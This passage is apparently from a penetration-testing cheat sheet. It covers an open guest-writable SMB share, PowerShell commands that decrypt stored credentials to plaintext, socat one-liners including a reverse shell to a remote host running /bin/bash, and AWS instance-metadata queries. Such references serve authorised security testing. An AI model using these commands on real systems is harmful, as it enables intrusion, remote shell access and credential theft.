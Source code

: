 ```
  browseable = yes
  read only = no
  guest ok = yes
```
- Change permissions to share directory: `chmod 777 /home/user/Documents/smb/`
- Restart the SMB daemon: `sudo service smbd restart`
### Decrypt PowerShell `SecureString` Network Credentials
```powershell
$s = Import-CliXml -Path root.xml
$s.GetNetworkCredential().Password # Extracting Password XML field
```
### Create Secure String: PowerShell for PowerShell Remoting
```powershell
$Pass = ConvertTo-SecureString -AsPlainText -Force 'this is my secure p@ssword!@#'
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\admin', $Pass)
Enter-PSSession -ComputerName 10.10.10.10 -Credential $Cred
```
### Socat
```
# Listen
socat TCP4-LISTEN:<listen-port> STDOUT

# Connect
soat TCP4:<remote-ip>:<remote-port> EXEC:/bin/bash

# Port Forward
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<forward-ip>:<forward-port>

# Host File
socat -u FILE:<file_name> TCP-LISTEN:<listen-port>,reuseaddr

# Get File
socat -u TCP:<listen-ip>:<listen-port> OPEN:<file-to-create>,create,trunc
```
### AWS Pentesting
```bash
IMDSv1
------
curl http://169.254.169.254/latest/user-data

IMDSv2
------
# Generate token and set expiration to 6 hours
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/

# get instance types
aws ec2 describe-instance-types | jq -r '.InstanceTypes | .[].InstanceType'

# get ami images
aws ec2 describe-images --owners self amazon | jq '.Images | .[] | select(.Description != null) | "\(.ImageId) \(.Description)"'

# get ec2 instances public ip addresses
aws ec2 describe-instances --profile [profile] | jq '.Reservations[] | .Instances[].PublicIpAddress'

# get ec2 instances security groups
aws ec2 describe-instances --profile [profile] | jq '.Reservations[].Instances[] | "\(.InstanceId) \(.PublicIpAddress) \(.NetworkInterfaces[].Groups[].GroupId)"'
```
